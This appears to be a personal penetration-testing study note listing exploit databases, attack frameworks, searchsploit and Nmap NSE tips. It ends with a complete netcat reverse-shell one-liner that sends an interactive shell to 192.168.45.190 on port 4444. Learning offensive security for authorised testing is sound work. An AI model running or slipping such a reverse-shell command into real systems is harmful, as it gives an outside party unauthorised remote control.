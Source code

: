 # Online exploit resources

- exploit-db.com
- packetstormsecurity.com
- google: ``` firefox --search "Microsoft Edge site:exploit-db.com" ```

# Offline exploit 

- metasploit
- core impact
- canvas
- BeEF

## Searchsploit
- lookup element e.g. window, php, webdev
- EDB-ID
- Try find newer version e.g. 2024 , 2023 if old not ok and not in searchsploit

## Nmap NSE Scripts
- only can use enum script
  ``` grep Enum /usr/share/nmap/scripts/*.nse ```
- scripts path ``` /usr/share/nmap/scripts ```
- more info ``` -script-help=???.nse ```

## Reverse shell: /dev/tcp maybe not here
- related to OS 
- use this or test other rev shell until success
``` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.190 4444 >/tmp/f" ```